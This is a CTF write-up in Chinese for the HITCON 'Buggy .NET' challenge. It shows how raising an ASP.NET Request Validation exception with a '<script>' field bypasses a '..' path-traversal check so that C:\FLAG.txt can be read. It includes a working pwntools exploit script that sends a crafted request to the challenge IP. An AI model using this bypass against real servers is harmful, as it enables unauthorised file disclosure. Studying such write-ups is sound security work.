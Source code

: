 # Buggy .NET

這題題目code很短

關鍵邏輯只有這幾行:

```csharp
bool isBad = false;
try {
    if ( Request.Form["filename"] != null ) {
        isBad = Request.Form["filename"].Contains("..") == true;
    }
} catch (Exception ex) {
    
} 

try {
    if (!isBad) {
        Response.Write(System.IO.File.ReadAllText(@"C:\inetpub\wwwroot\" + Request.Form["filename"]));
    }
} catch (Exception ex) {

}
```

flag 在 `C:\FLAG.txt`

所以我們的目標是想辦法往上跳去讀檔

一開始嘗試了很多招，也試過用短檔名去爆web目錄下的檔案

讀了web.config，也沒看到啥問題

嘗試各種windows路徑特性，也沒辦法繞過`..`判斷

```
[Work]
web~1.con
web.config/.
web.config\.
web.config%20
web.config.
...

[Not work]
web.config::$DATA
web.config%0a
...
```

後來想到，之前讀過某個國外.NET大佬的 WAF Bypass 簡報:

https://www.slideshare.net/SoroushDalili/waf-bypass-techniques-using-http-standard-and-web-servers-behaviour

原本以為這個只能單純繞 Request Validation 去繞 WAF 做 XSS (30頁開始的部分)

但仔細一想，發現其實這題情境跟簡報裡的情境幾乎一模一樣

只要想辦法讓 `Request.Form["filename"].Contains("..")` 噴Exception，就能夠繞過判斷

最後嘗試很久簡報裡面的招，發現都不會Throw exception

花了點時間跟了 .NET Source Code，才發現原來簡報裡面噴 Exception 是因為 Request Validation 偵測到 XSS Attack

我以前一直以為是charset + POST/GET 互換造成的QQ

(具體函數呼叫鍊大概是: `Form.get` -> `ValidateHttpValueCollection` -> `collection.EnableGranularValidation` -> `ValidateString` -> `RequestValidator.Current.IsValidRequestString` -> `rossSiteScriptingValidation.IsDangerousString` -> `throw new HttpRequestValidationException`)

並且他做Validation只會做一次，所以後面再次取 `Request.Form["filename"]` 時，就不會再噴 Exception

```
public NameValueCollection Form {
    get {
        EnsureForm();

        if (_flags[needToValidateForm]) {
            _flags.Clear(needToValidateForm);
            ValidateHttpValueCollection(_form, RequestValidationSource.Form);
        }

        return _form;
    }
}
```


所以這邊我們只要簡單構造能觸發 Request Validation Exception 的 XSS Payload

就能繞掉 `Contains("..")` 判斷了

(所以其實也不需要 charset)

Exploit script:

```python
from pwn import *
import urllib

encoding = "utf-8"

r = remote("52.197.162.211", 80)

s = 'filename'
print(s)
res1 = (urllib.quote_plus(s.encode(encoding)))
l1 = len(res1)

#s = 'web.config'
s = '../../../../FLAG.txt'
print(s)
res2 = (urllib.quote_plus(s.encode(encoding)))
l2 = len(res2)

print(res1 + "=" + res2)
print("Length: ", l1 + l2 + 1)

s = "<script>alert(123)</script>"
shit = "&x=" + urllib.quote_plus(s.encode(encoding))

payload = '''GET / HTTP/1.1
Host: 52.197.162.211
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}'''.format(l1 + l2 + 1 + len(shit), res1 + "=" + res2 + shit).replace("\n", "\r\n")


r.send(payload)

r.interactive()
```

`hitcon{Amazing!!! @irsdl 1s ind33d the .Net KING!!!}`
